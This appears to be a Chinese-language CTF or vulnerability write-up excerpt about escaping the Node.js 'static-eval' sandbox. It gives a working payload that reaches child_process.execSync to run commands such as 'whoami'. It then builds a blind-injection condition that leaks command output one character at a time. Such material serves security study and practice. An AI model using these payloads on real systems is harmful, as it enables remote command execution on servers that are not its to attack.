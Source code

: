 漏洞库给出的payload为

```javascript
var evaluate = require('static-eval'); 
var parse = require('esprima').parse; 
var src="(function (x) { return ${eval("console.log(global.process.mainModule.constructor._load('child_process').execSync('ls').toString())")} })()";
var ast = parse(src).body[0].expression; evaluate(ast)
```

由于没有办法直接将命令运行结果输出，所以需要采用盲注的形式

```javascript
// 基本框架
(function (x) { return ${eval()} })()

// 基本框架中的 javascript 载荷
console.log(global.process.mainModule.constructor._load('child_process').execSync('ls').toString())

// 构建命令执行主体
global.process.mainModule.constructor._load('child_process').execSync('whoami')

// 将命令执行结果处理为字符串
global.process.mainModule.constructor._load('child_process').execSync('whoami').toString()

// 构建盲注
if(global.process.mainModule.constructor._load('child_process').execSync('whoami').toString().charCodeAt(0) == 72) {25} else {1}
```

构建完成之后，只有盲注命中，才会返回`Passed`

![img](img/image_20250332-213222.png)
